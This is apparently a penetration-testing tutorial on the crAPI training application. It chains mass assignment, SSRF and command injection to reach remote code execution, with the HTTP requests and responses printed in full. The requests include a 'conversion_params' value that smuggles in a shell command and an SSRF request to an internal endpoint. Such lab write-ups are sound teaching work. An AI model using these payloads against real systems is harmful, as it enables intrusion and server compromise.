


# Intro

Vulnerability chaining is a critical offensive security technique where multiple low or medium severity vulnerabilities are combined to achieve a high-impact objective. While individual vulnerabilities might appear insignificant on their own, their cumulative effect when strategically linked can lead to catastrophic security breaches.

As penetration testers, our objectives typically revolve around demonstrating tangible business impact, such as:
- Customer data exfiltration
- Account takeovers
- Privileged access acquisition
- Remote code execution


While discovering a single critical vulnerability that achieves these objectives is ideal, reality often presents us with multiple smaller vulnerabilities that must be chained together to demonstrate meaningful impact. This approach more accurately represents how sophisticated threat actors operate in real-world scenarios.


When working with vulnerability chains, particularly in production environments, careful payload crafting becomes essential. Consider the following risks:

- **Application stability**: Malformed payloads may crash services or create denial-of-service conditions
- **Trace persistence**: Ensure payloads don't leave persistent artifacts that could affect application functionality
- **Payload isolation**: Test payloads in staging environments first when possible
- **Incremental validation**: Verify each step in your chain works before proceeding to the next

# crAPI

The crAPI application contains an excellent example of vulnerability chaining, where we'll combine three distinct vulnerabilities to achieve remote code execution:

1. Mass assignment vulnerability
2. Server-Side Request Forgery (SSRF)
3. Command injection


__Step 1: Identifying Command Injection Potential__

We begin by examining the video upload functionality. When submitting a POST request to `/identity/api/v2/user/videos`, we receive the following response:

```http
HTTP/1.1 200 
Server: openresty/1.25.3.1
Date: Wed, 19 Feb 2025 01:54:51 GMT
Content-Type: application/json
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
Strict-Transport-Security: max-age=31536000 ; includeSubDomains
X-Frame-Options: DENY
Content-Length: 315933

{"id":52,"video_name":"car.mp4","conversion_params":"-v codec h264","profileVideo":"[...]"}
```

The `conversion_params` parameter with value `-v codec h264` looks suspiciously like a command-line argument. This suggests potential command injection vulnerability if we can control this parameter.

__Step 2: Exploiting Mass Assignment__

From our previous testing, we've identified that the application is vulnerable to mass assignment. We'll leverage this to modify the `conversion_params` parameter when updating a video through the `PUT /identity/api/v2/user/videos/52` endpoint:

```json
{
    "videoName":"test",
    "conversion_params":"-v codec h264 && touch /tmp/rce"
}
```



We've successfully injected a command to create a file in the `/tmp` directory, but we need a way to trigger the command execution.

__Step 3: Discovering the Internal Endpoint__

When attempting to use the "Share Video with Community" functionality, we notice the application makes a GET request to `/identity/api/v2/user/videos/convert_video?video_id=52`. This endpoint returns an interesting message:

```json
{
    "message":"Thi-S endpoint S-hould be accessed only inte-Rnally. -Fine? , endpoint_url http://crapi-identity:8080/identity/api/v2/user/videos/convert_video",
    "status":403
    }
```

The capitalized letters spell "SSRF" - a hint that this endpoint is vulnerable to Server-Side Request Forgery. Additionally, we learn that the internal service (`crapi-identity:8080`) uses different routing than the external interface (`localhost:8888`).

__Step 4: Completing the Chain with SSRF__

To complete our attack chain, we'll leverage a previously discovered SSRF vulnerability in the mechanic contact functionality. By sending the following request to `/workshop/api/merchant/contact_mechanic`:

```http
POST /workshop/api/merchant/contact_mechanic HTTP/1.1
Host: localhost:8888
Content-Length: 233
Authorization: Bearer JWT
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://localhost:8888
Referer: http://localhost:8888/contact-mechanic?VIN=2TQKN34FINL321539
Connection: keep-alive

{
    "mechanic_code":"TRAC_JME",
    "problem_details":"text",
    "vin":"2TQKN34FINL321539",
    "mechanic_api":"https://crapi-identity:8080/identity/api/v2/user/videos/convert_video?video_id=52",
    "repeat_request_if_failed":false,
    "number_of_repeats":1
}
```

We're instructing the server to make an internal request to the restricted endpoint, which will process our video with the injected command.


The application confirms our successful exploitation with the following message:

```
WOW. Look at you. Combining Mass Assignment and SSRF to exploit a hidden Shell Injection.
We're very proud. You won the game. Unfortunately, we don't actually  
allow our pentester to run arbitrary shell commands on our backend :( 
It could be very expensive and annoying to maintain it. 
Anyhow, if you host your own instance of crAPI, you can simply change the
`block_shell_injections` flag in the config file to allow real shell injections. 
```



This successful attack chain demonstrates how three moderate-severity vulnerabilities can be combined to achieve remote code execution:

1. **Mass Assignment**: Allowed us to control restricted parameters (`conversion_params`)
2. **Command Injection**: Provided the ability to inject system commands
3. **SSRF**: Enabled access to internal endpoints required to trigger the command execution

In a real-world scenario, this chain could give an attacker complete control over the application server, potentially leading to data theft, lateral movement, or persistent access.